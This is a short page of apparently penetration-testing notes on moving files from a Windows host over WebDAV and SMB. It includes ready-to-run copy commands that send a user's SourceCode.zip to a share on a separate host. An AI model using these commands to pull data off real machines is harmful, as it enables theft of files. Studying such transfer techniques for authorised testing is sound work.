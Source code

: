 <figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

### **Connecting to the Webdav Share**

{% code overflow="wrap" %}
```
dir \\192.168.49.128\DavWWWRoot
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder</p></figcaption></figure>

### **Uploading Files using SMB**

{% code overflow="wrap" %}
```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
{% endcode %}

{% code overflow="wrap" %}
```
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption><p>If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.</p></figcaption></figure>
